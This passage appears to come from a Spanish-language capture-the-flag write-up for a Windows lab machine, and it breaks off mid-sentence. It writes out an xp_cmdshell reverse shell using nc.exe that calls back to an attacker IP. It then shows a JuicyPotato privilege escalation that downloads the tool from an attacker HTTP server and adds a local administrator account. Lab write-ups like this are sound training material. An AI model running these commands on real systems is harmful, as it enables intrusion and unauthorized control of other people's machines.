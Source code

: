 1. Desde el ms-sql

    ```bash
    xp_cmdshell "\\10.10.14.7\smbFolder\nc.exe -e cmd 10.10.14.7 443"
    ```

Ya hemos ganado accesso al systema como el usuario Sarah y podemos ver la flag

## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
systeminfo
whoami /priv
```

Aqui vemos que tenemos el 
```bash
 SeImpersonatePrivilege 
```
 ;)

Tiramos como siempre de JuicyPotatoe.exe

Lo descargamos en la maquina de atacante y lo enviamos a la victima.

```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
cp /usr/share/sqlninja/apps/nc.exe
python3 -m http.server 80
```

En la maquina victima lo descargamos

```bash
cd C:\Windows\Temp
mkdir privesc
cd privesc
iwr -uri http://10.10.14.7/JuicyPotato.exe -OutFile JuicyPotato.exe
```

Nos creamos un nuevo usuario con el JuicyPotato.

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user s4vitar s4vitar1234$! /add"
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators s4vitar /add"
```

Si comprobamos con el commando 
```bash
 crackmapexec smb 10.10.10.59 -u 's4vitar' -p 's4vitar1234$!' 
```
 Vemos que el usuario no esta pwned.
Aqui tenemos que 
